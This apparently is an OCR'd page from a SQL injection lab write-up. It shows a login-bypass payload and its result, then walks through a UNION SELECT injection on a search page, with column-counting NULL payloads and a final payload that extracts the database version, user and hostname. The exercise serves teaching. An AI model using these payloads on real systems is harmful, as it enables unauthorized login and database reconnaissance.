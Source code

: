 ```python

# Check if the login was successful
if 'Welcome alice!' in response.text:
    print("Successfully logged in as alice")

```

    Payload: alice'); -- 
    Result: Welcome alice!
    
    Successfully logged in as alice


## part 2

### SQL Injection Explanation for Extracting Server Information

#### Context
The exercise involves using SQL injection to extract server information such as the MySQL version, current user, and hostname from the `searchproducts.php` page. 

#### Injection Payload
The SQL injection payload used is:
```sql
1' UNION SELECT 1, 2, version(), current_user(), @@hostname -- 
```
This payload is designed to leverage the UNION SELECT statement to extract database information.

#### Step-by-Step Explanation

1. **Understanding the Vulnerable Query:**
   The typical query used to fetch product information might look like this:
   ```sql
   SELECT ProductName, ProductType, Description, Price FROM products WHERE ProductName LIKE '%input_searchitem%';
   ```
   Here, `input_searchitem` is the value submitted through the search form.

2. **Identifying the Number of Columns:**
   To use a UNION SELECT statement, the number of columns in both the original query and the injected query must match. We first need to identify how many columns are being selected in the original query. This is done using a series of payloads with increasing numbers of `NULL` values:
   ```sql
   1' UNION SELECT NULL -- 
   1' UNION SELECT NULL, NULL -- 
   1' UNION SELECT NULL, NULL, NULL -- 
   1' UNION SELECT NULL, NULL, NULL, NULL -- 
   1' UNION SELECT NULL, NULL, NULL, NULL, NULL -- 
   1' UNION SELECT NULL, NULL, NULL, NULL, NULL, NULL -- 
   ```
   The correct number of columns is determined when the payload does not result in an error.

3. **Crafting the Final Payload:**
   After identifying that the correct number of columns is five, the final payload is crafted to extract the desired information:
   ```sql
   1' UNION SELECT 1, 2, version(), current_user(), @@hostname -- 
   ```
   Let's break it down:
   - `1` and `2` are dummy values to match the expected number of columns.
   - `version()` returns the MySQL version.
   - `current_user()` returns the current database user.
   - `@@hostname` returns the hostname of the server.
   - `--` comments out the rest of the original query.
